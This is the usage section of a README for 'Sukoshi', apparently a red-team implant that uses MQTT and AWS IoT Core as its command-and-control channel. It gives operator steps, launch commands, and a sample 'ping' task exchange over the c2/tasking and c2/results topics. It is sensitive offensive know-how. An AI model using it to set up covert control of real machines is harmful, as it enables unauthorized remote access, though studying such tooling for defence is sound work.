 ## Usage
The implant has been configured with very basic functionality to demonstrate the usage of MQTT for C2 and integration with AWS IoT Core. For simplicity, interaction with the implant by an operator is primarily done through the [MQTT test client](https://docs.aws.amazon.com/iot/latest/developerguide/view-mqtt-messages.html) in the AWS IoT Core console page.

The following is an example of the end-to-end flow for the implant C2:
1. Navigate to the AWS IoT Core console page
2. Under the "Test" dropdown in the sidebar, click "MQTT test client"
3. On the "Subscribe to a topic" tab in the "Topic filter" field, enter `c2/results` as a topic and click "Subscribe". Note that `c2/results` appears under the "Subscriptions" window.
4. Repeat the above step for the `c2/tasking` and `c2/heartbeat` topics. For convenience, you may choose to favorite each of these subscribed topics by clicking the heart icon.
5. There are two builds of the implant (Python/C++) and their execution instructions will vary: 
* For Python, navigate to the root directory of Sukoshi and start the implant by executing the command line obtained from the Terraform output (`python_implant_command_line`), a sample can be seen below:
```
python ./python/implant.py --endpoint example-ats.iot.us-east-1.amazonaws.com --cert terraform/certs/sukoshi_implant.cert.pem --key terraform/certs/sukoshi_implant.private.key --client-id sukoshi_client_id --port 443
```
* For C++, compile the implant by opening the Visual Studio solution (`/cpp/Sukoshi/Sukoshi.sln`) and building with `Release`, `x64` flags. Start the implant by opening a PowerShell terminal window, navigating to the root directory of Sukoshi and executing the command line obtained from the Terraform output (`cpp_implant_command_line`), a sample can be seen below:
```
./cpp/Sukoshi/x64/Release/Sukoshi.exe --endpoint example-ats.iot.us-east-1.amazonaws.com --cert terraform/certs/sukoshi_implant.cert.pem --key terraform/certs/sukoshi_implant.private.key --client-id sukoshi_client_id --port 443
```
6. Observe that output begins to appear in the `c2/heartbeat` channel
7. Click on the "Publish to a topic" tab and enter `c2/tasking` in the "Topic name" field
8. In the "Message payload" field, enter the following:
```
{
  "task": "ping",
  "arguments": ""
}
```
9. Click the "Publish" button and observe that the task is published to the `c2/tasking` topic in "Subscriptions"
10. Observe the implant receiving the task, performing the work and publishing results. The following sample is from the Python build:
```
Publishing message to topic 'c2/heartbeat': {"contents": "heartbeat", "success": "true"}
Received message from topic 'c2/tasking': b'{\n  "task": "ping",\n  "arguments": ""\n}'
Publishing message to topic 'c2/heartbeat': {"contents": "heartbeat", "success": "true"}
Publishing message to topic 'c2/results': {"contents": "pong", "success": "true"}
```
11. Observe the results appear in the `c2/results` topic:
```
{
  "contents": "pong",
  "success": "true"
}
```
12. To view other sample tasking payloads, see the [Supported Tasks](#supported-tasks) section. Tasking format will be the same for both Python and C++ builds.
